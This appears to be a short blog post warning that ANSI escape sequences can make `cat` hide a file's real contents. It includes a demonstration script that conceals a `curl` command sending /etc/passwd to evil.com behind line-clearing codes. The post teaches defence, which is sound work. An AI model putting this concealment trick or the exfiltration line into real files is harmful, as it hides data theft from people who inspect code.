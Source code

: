 ```yaml
---
title: Don't trust `cat`!
tags: []
---
```


To read a file `foo` in the terminal, we do `cat foo`, and the contents of the file are printed out. But because terminal control sequences are _in-band_ as ordinary stdout bytes, `cat`ting a file can do more than you think! You should not trust the visual output of cat as a faithful representation of the file contents.

This program clears the screen:

```c
#include <stdio.h>
int main() { printf("\033c"); return 0; }
```

We can achieve the same thing with the `printf` program in the CLI:

```bash
printf "\033c"  # Clears the screen
```

Because those are just bytes over stdout, we can write them to a file, and read from the file. This does the same thing and clears the screen:

```bash
printf "\033c" > clear_screen
cat clear_screen  # Clears the screen
```

There are all kinds of ANSI control sequences; you should consider the byte stream to have arbitrary control over your screen.

A file could look like a normal plaintext file with `cat`, but contain secret other bytes. Here's an example using the sequence `<ESC>[9D`, which deletes the previous 9 characters.

```
$ printf "invisible\033[9Dsome boring plaintext\n" > boring
~/dev/tmp/clear
$ cat boring
some boring plaintext
```

This is a clear opportunity for malicious files. The following constructs a shell file which looks innocent, but contains a secret command which uploads sensitive files to a remote server:

```
$ printf 'curl --data-binary @/etc/passwd https://evil.com;\033[2K\033[49Decho "You look great!"\n' > hello.sh
$ chmod +x hello.sh
$ cat hello.sh
echo "You look great!"
$ ./hello.sh  # Uh-oh
```

The shell chokes once it reaches the escape sequences, but by then it's too late: the shell has already run the malicious command and our secrets are leaked!

First, the file contains the malicious command, which is 49 characters long. Next, it has the escape sequence `<ESC>[2K` which clears the current line, then the escape sequence `<ESC>[49D` to delete the previous 49 characters. At this point, we're back to looking like a blank file. Finally we put in some nice-looking commands to convince the user to run the file.

Don't trust `cat`! If there's any possibility of malice, then inspect the file with `less`, or even `hexdump -C`.
